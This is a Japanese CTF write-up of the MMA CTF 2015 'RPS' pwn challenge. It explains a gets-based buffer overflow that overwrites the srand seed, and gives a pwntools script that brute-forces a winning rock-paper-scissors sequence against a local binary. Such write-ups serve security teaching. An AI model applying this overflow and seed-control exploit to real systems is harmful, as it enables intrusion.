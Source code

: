 ```yaml
---
layout: post
alias: "/blog/2016/09/02/mma-ctf-2015-rps/"
date: "2016-09-02T20:30:59+09:00"
tags: [ "ctf", "writeup", "pwn", "mmactf", "rand", "prng-prediction" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/rps-50" ]
---
```


# MMA-CTF-2015: RPS

解けず。seedを操作できていることに気付いていなかった。`srand`が見えたときに乱数予測は思い受かんだのだが、`/dev/urandom`を見て消してしまった。

bofからのropができるので、それを考えてしまっていた。
`flag.txt`を読んで書き出す処理をする部分があるのでここに飛ばしたいが、`gets`によるbofでかつ位置が`0x400a9a`なので書き込めず飛ばせない。
gadgetがあまりないので厳しく、以下なら可能だと判断したが、明らかに$50$点問題のそれではなかったのでwriteupを見た。

-   stack pivotしながらlibc baseを特定し`mmap`からの再度stack pivotでshellを取る
-   `gets`と`printf`の`%n`指定子による書き込みで`flag.txt`の読み出しアドレスを作る

## solution

buffer overflowにより`srand`のseedを操作できる。出してくる手は固定なので全勝できる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

payload = ''
payload += 'A' * 0x30 # name
payload += p64(0) # seed
assert payload.find('\n') == -1

def play(s, cont=(lambda p: None)):
    p = process('./rps')
    p.recvuntil("What's your name: ")
    p.sendline(payload)
    for i, c in enumerate(s):
        p.recvuntil('Rock? Paper? Scissors? [RPS]')
        p.sendline(c)
        p.recvline()
        if p.recvline().strip() != 'You win!!':
            p.close()
            return i
    cont(p)
    p.close()
    return len(s)

s = ''
while len(s) < 50:
    for c in 'RPS':
        t = s + c * (50 - len(s))
        l = play(t)
        s = t[ : l]
play(s, lambda p: p.recvall())
```
